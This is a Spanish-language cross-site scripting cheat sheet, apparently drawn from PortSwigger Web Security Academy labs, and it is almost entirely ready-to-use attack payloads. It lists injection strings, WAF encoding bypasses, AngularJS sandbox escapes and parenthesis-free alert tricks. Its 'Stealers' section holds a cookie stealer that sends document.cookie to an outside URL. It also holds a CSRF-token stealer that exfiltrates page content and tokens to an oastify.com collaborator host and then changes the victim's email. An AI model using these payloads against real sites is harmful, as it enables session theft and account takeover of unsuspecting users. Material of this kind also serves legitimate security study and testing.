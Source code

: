 -- -

## **Reconocimiento**  
- Siempre empezar probando con html injection.

---

## **Inyecciones Básicas (con Tag Cerrado)**  
```html
<script>alert(1)</script>
<img src="x" onerror="alert('XSS')" />
<iframe src="javascript:alert('XSS');"></iframe>
<svg onload="alert('XSS');"></svg>
<video><source onerror="alert('XSS');"></source></video>
<object data="javascript:alert('XSS');"></object>
<math><annotation-xml encoding="application/xhtml+xml"><script>alert('XSS');</script></annotation-xml></math>
abc’”><><img src=1 onerror=alert(document.cookie)>
```

---

## **Bypass de WAF**  
- **HTML Entities**: `&#60;script&#62;`.  
- **URL Encoding**: `%3Cscript%3E`.  
- **Hex/Unicode**: `\u003Cscript\u003E`.  
- **Double Encoding**: `%26%2360%3Bscript%26%2362%3B`.  

---
## **Payloads segun ocaciones**  
```javascript 
" style="animation-name:swoop-up" onanimationstart="alert(document.domain)
```

**Escapando de los tags originales y poniendo mis propios tags**
```html
"><script>alert(0)</script>
```

**Buscando cargar una imagen erronea para asi generar un error**
```html
<img src=x onerror=alert(0)>
```

**Si se esta utilizando Jquery**
```html
1. #<img src=x onerror=alert(0)>
Si es que se refleja

2. <iframe src="https://URL/#" onload="this.src += '<img src=0 onerror=alert(0)>'"></iframe>
```

**Si vemos que lo que inyectamos se refleja en un `<input>`**
```html
" onmouseover="alert(0)
```

**Si jugamos con la declaracion de varibles**
```javascript
'-alert(1)-'
kike'; alert(0); var probando='testing
kike'; alert(0)//
```

**Si la url esta pasando parametros por post, intentar mandarlos por GET como otro parametro aparte y cerrar los tags en los que esta encasillado**
```python
https://0a680079035eb8ab82f76614006700da.web-security-academy.net/product?productId=1 ---> el servidor envia ahi data por POST en diversos parametros
https://0a680079035eb8ab82f76614006700da.web-security-academy.net/product?productId=1&storeId=</option></select><script>alert(0)</script> ---> Le paso data por que mandaba por POST, solo que por GET, cierro las etquietas y asi se ejecuto el codigo reflejado
```

**Si esta usando AngularJS y vemos la palabra ng-app en el codigo**
```javascript
{{constructor.constructor('alert(1)')()}}
```

**Si nuestra data se refleja en un json y/o se esta ejecutando angularJS, vale la pena probar**
```javascript 
asdas\"-alert(0)}//
```

**Si permite usar body y onresize**
```html
<iframe src="https://0ad6008404cf2e4a805d219f00200007.web-security-academy.net/?search=<body onresize=print()>" onload=this.style.width='100px'></iframe>
```

**Si vemos que no se pueden usar etiquetas comunes, probamos usando etiquetas custom**
```html
<custom id=identifier onfocus=alert(0) tabindex=1>#identifier
```


**Si permite el uso de svg y anchor pero no el href**
```javascript
<svg><a><animate attributeName=href values=javascript:alert(0) /><text x=50 y=50>Click me</text></a>
```

**Invocar alert escapando del contexto y sin parentesis ni backticks**
```javascript
x=x=>{throw/**/onerror=alert,1337},toString=x,window+''
```

**Aprovechando una HTMLi para crear un boton malicioso**
```html
my-account?email=prueba"></form><form class="login_form" name="myform" action="https://exploit-0aa900d0042394388054026e017a0088.exploit-server.net/exploit" method="GET"><button class=button type=submit>Click me</button>
```

**Aprovechando insercion en el content CSP**
```html
script-src-elem 'unsafe-inline'
```

---
## **Stealers**
### **Cookie stealer**
```javascript
<script>
	fetch("https://URL/?cookie=" + btoa(document.cookie);
</script>
```

### **CSRF stealer**
```javascript
<script>
	var req = new XMLHttpRequest();
	req.open("GET", "/my-account", true);
	req.send();
	
	var response = req.responseText;
	var csrf_token = response.match(/name="csrf" value="(\w+)"/)[1];
	
	var req2 = new XMLHttpRequest();
	req2.open('GET', 'https://d1f1vc0tfn8d4zsygrb2pr4neek58wwl.oastify.com/?response=' + btoa(response), false);
	req2.send();
	
	var req3 = new XMLHttpRequest();
	req3.open('GET', 'https://d1f1vc0tfn8d4zsygrb2pr4neek58wwl.oastify.com/?token=' + btoa(csrf_token), false);
	req3.send();

	var req4 = new XMLHttpRequest();
	req4.open('POST', "/my-account/change-email", true);
	req4.setRequestHeader("Content-Type","application/x-www-form-urlencoded")
	var data = "email=" + encodeURIComponent("pwned@pwned.com") + "&csrf=" + encodeURIComponent(csrf_token);
	req4.send();
	
</script>
```

```javascript
<script> 
	var req = new XMLHttpRequest(); 
	req.onload = handleResponse; 
	req.open('get','/my-account',true);
	req.send(); 
	function handleResponse() { 
		var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1]; 
		var changeReq = new XMLHttpRequest(); changeReq.open('post', '/my-account/change-email', true); 
		changeReq.send('csrf='+token+'&email=test@test.com') }; 
</script>

```